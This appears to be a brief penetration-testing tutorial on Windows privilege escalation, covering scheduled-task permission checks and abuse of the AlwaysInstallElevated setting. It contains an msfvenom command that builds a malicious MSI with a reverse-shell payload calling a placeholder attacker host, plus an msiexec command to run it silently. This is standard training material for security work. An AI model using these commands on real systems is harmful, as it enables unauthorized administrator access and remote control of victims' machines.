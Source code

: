 Privilege escalation can sometimes arise from misconfigurations, allowing access to higher privileges, including administrator access.
# Scheduled Tasks

To examine scheduled tasks for lost binaries or modifiable executables. We use the following command:

```shell-session
schtasks /query /tn <task> /fo list /v
```

Now to check the file permissions on the executable, we use `icacls`:

```shell-session
icacls <task_to_run_path>
```
# AlwaysInstallElevated

The **AlwaysInstallElevated** feature allows Windows Installer files (.msi) to run with elevated privileges, even from unprivileged user accounts. This can be exploited to create a malicious MSI that executes with admin rights.

To utilize this method, two registry values must be set. We can check these with the following commands:

```shell-session
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If both values are set, we can create a malicious MSI using `msfvenom`:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

After transferring the file to the target, we run the installer to receive a reverse shell:

```shell-session
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

**Note:** we need to set the appropriate handler for receiving the shell.
